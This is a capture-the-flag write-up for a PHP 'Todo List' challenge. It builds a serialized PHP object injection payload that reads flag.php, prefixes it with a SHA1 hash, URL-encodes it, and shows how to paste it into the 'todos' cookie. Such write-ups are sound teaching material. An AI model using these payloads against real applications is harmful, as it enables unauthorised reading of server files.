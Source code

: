 
## Todo List

![img](https://i.ibb.co/dQBGxXC/image.png)

## Solution:

This challenge contains the PHP Object Injection vulnerability which allows attacker to modify the object. Your task is to modify the object which will be stored as a cookie when you add any task in the list. You will get basic payload creation idea if you see the provided PHP code carefully.

### Payload Creation


Step 1 - Basic payload to read flag.php
```
a:1:{i:1;O:10:"ShowSource":1:{s:6:"source";s:8:"flag.php";}}
```
\

Step 2 - Getting SHA1 hash of above payload

![img](https://i.ibb.co/LvRRknh/Screenshot-from-2022-03-21-17-03-55.png)

\

Step 3 - Encoding the basic payload

![img](https://i.ibb.co/Ws1zmtn/Screenshot-from-2022-03-21-17-11-21.png)

\

Step 4 - Concatenating generated `Hash` and `Encoded Basic Payload` together.

```
168ebef72875ddf6d6e4ac71f87a4bb2be6b5373a%3A1%3A%7Bi%3A1%3BO%3A10%3A%22ShowSource%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D
```

### Payload Injection

Step 1 - Just add any random task in todo list


Step 2 - Go to cookies section by inspecting the page

![img](https://i.ibb.co/y0GRyLp/Screenshot-from-2022-03-21-16-53-55.png)

\

Step 3 - Edit `todos` cookie value and paste our payload and refresh the page.

![img](https://i.ibb.co/4K80Nxm/Screenshot-from-2022-03-21-17-19-23.png)
